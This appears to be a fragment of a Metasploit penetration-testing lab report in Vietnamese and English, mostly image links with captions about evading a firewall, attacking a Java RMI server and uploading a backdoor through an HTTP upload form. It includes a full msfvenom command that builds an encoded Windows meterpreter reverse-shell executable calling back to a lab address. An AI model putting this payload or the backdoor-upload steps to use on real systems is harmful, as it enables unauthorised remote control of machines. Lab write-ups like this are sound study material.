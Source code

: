 Evade firewall

![](../media/MSF%20PENTEST%20REPORT_29.png)

sudo msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 3 -f exe LHO= 192.168.44.128 LPORT=4447 -o eva.exe

ATTACK RMI JAVA

![](../media/MSF%20PENTEST%20REPORT_30.png)

Xem thêm thông tin

![](../media/MSF%20PENTEST%20REPORT_31.png)

![](../media/MSF%20PENTEST%20REPORT_32.png)

Exploit

![](../media/MSF%20PENTEST%20REPORT_33.png)

![](../media/MSF%20PENTEST%20REPORT_34.png)

Đẩy exploit vào stack

![](../media/MSF%20PENTEST%20REPORT_35.png)

Exploit rmi server

Web Crawler trong MSF – HTTP và cách upload safe BACKDOOR![](../media/MSF%20PENTEST%20REPORT_36.png)

![](../media/MSF%20PENTEST%20REPORT_37.png)

services -s http -O 2

![](../media/MSF%20PENTEST%20REPORT_38.png)

Set host, port in crawler

![](../media/MSF%20PENTEST%20REPORT_39.png)

Kích vào link uploads – 0 có file nào

![](../media/MSF%20PENTEST%20REPORT_40.png)

Tấn công http upload file

![](../media/MSF%20PENTEST%20REPORT_41.png)

Tạo và upload backdoor lên Server

![](../media/MSF%20PENTEST%20REPORT_42.png)

Enum ra được đường link uploads file
